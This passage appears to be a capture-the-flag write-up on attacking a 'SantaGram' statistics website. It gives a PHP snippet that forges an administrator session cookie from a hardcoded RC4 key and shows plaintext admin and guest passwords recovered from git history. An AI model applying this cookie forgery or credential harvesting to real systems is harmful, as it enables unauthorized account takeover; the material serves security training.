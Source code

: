 Also in `login.php`, I saw this code was used

```php
<?php
$auth = encrypt(json_encode([
      'username' => $_POST['username'],
      'date' => date(DateTime::ISO8601),
    ]));

    setcookie('AUTH', bin2hex($auth));
?>
```

I used this same method to forge a session cookie for the `administrator` account with the following snippet.

```php
<?php
   define('KEY', "\x61\x17\xa4\x95\xbf\x3d\xd7\xcd\x2e\x0d\x8b\xcb\x9f\x79\xe1\xdc");   
   
   function encrypt($data) {     return mcrypt_encrypt(MCRYPT_ARCFOUR, KEY, $data, 'stream');   }   
   
   function decrypt($data) {     return mcrypt_decrypt(MCRYPT_ARCFOUR, KEY, $data, 'stream');   }   
   
   $creds = array('username'=>'administrator',
                  'data' => date(DateTime::ISO8601) );

  $auth = encrypt(json_encode($creds));
  echo bin2hex($auth);
?>
```

I was able to use the provided cookie in a cookie add-on in the browser to get authenticated as the `administrator`.

Additionally, I was able to create a patch of all changes in each file for the website. The command to do this for the `sprusage.sql` file is below:

```shell
git log -p sprusage.sql
```

It reveals that during a few different commits the following line was added and then removed from the list of `sql` commands.

```sql
INSERT INTO `users` VALUES (0,'administrator','KeepWatchingTheSkies'),(1,'guest','busyllama67');
```

I am able to confirm that is still the administrator's password. So now not only can I forge a cookie to be the admin, I can login as the user.

As the admin, you are not presented with the `MP3` link in the menu bar at the the top of the site. It is replaced with an `Edit` link. This page provides functionality to edit reports that have previously been run on the system. The website provides a capability to query the `launch` and `usage` statistics of the *SantaGram* app. Queries can be saved and are given a report number. The guest user can query the usage and launch tables in the database, can save the queries as reports, and then view the reports at a later time. Only the admin can edit the reports.


[no]: yes